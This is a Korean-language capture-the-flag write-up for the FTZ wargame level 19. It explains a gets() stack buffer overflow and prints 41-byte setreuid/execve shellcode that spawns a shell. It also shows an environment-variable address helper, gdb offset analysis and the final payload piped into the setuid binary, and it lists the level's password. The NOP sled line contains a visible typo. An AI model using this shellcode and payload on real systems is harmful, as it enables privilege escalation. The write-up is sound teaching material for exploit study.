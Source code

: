 # FTZ Level19

#### ID : level19 PW: king poetic
<br>

우선 hint의 내용을 보자<br>
```cat hint```<br>
```c
#include <stdio.h>

main()
{
      char buf[20];
      gets(buf);
      printf("%s\n", buf);
}
```
전 단계와 비교하면 엄청 간단해졌다.!!!<br>
하지만 setreuid 함수가 없으므로 주로 사용하던 25byte 쉘코드가 아닌 setreuid가 포함된 41byte 쉘코드를 사용하자.<br>

우리의 목적을 생각해보자.<br>
1. buf 위치 찾기
2. 쉘 코드 환경변수 등록 후 주소 확인
3. ret 환경변수 주소로 덮기
3. 공격!


이제 쉘 코드를 등록하고 주소를 찾아보자.<br>
\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80<br>

```export shellcode=$(python -c 'print "\n90"*20+"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"')```<br>
vi에디터를 이용해 쉘 코드의 주소값을 받아오는 코드를 작성한다.<br>
```vi shell.c```<br>
```c
#include <stdio.h>

int main()
{
    printf("%p\n", getenv("shellcode"));
    return 0;
}
```
```
gcc -o shell shell.c
./shell
```
만든 코드를 실행시키면 쉘 코드의 주소값을 알 수 있다.<br>
필자의 경우 0xbffffc78이 나왔다.<br>

attackme 파일을 tmp로 옮기고 디버깅을 해보자<br>
```
gdb -q attackme
set disassembly-flavor intel
disas main
```
<main+9>를 보면 buf의 위치는 ebp로부터 40만큼 떨어져있다는 것을 알 수 있다.<br>
따라서 sfp 4byte를 포함해 44byte를 채우고 쉘 코드 주소로 덮으면 된다.<br>

그렇다면 우리가 작성할 페이로드는 다음과 같다고 할 수 있다.<br>

**이제 페이로드를 작성해보자.**<br>
```(python -c 'print "A"*44+"\x78\xfc\xff\xbf"';cat)|./attackme```<br>
*(주소는 little endian 방식으로 입력된다)*<br>
<br>
```cd ..``` 다시 원래 디렉토리로 되돌아가서<br>
**공격 실시!**<br>
```(python -c 'print "A"*44+"\x78\xfc\xff\xbf"';cat)|./attackme```<br>
```my-pass```로 비밀번호를 물어보면<br>
Level20 Password is "~~". 라고 나올 것이다!!
